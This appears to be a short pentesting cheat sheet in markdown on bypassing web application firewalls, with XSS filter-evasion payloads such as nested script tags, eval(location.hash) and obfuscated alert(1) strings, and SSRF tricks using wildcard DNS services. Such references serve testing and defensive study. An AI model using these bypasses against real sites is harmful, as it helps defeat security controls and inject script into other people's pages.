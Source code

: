 # WAF

* Change words casing
* Add `0` in front of port numbers
* Append or prepend spaces, tabs, newline etc
* PHP replaces some characters like `[` with `_` in parameters names, may
  be useful for example if `news_id` is blocked.
* Try `Content-Type: application/x-www-form-urlencoded;/json`

## XSS
* If `<script>` is deleted try `<scr<script>ipt>`
* Bypass any word with: `eval(location.hash.slice(1))` and append `#alert(1)` to the URL
* Transform javascript in symols with [JSFuck](http://www.jsfuck.com/)

### `alert(1)`
* `eval(8680438..toString(30))(1)`
* `Function(/ALERT(1)/.source.toLowerCase())()`

## SSRF
Use these tools to bypass internal hostnames
* [nip.io](http://nip.io)
* [xip.io](http://xip.io/)
* [Welcome to sslip.io](https://sslip.io/)
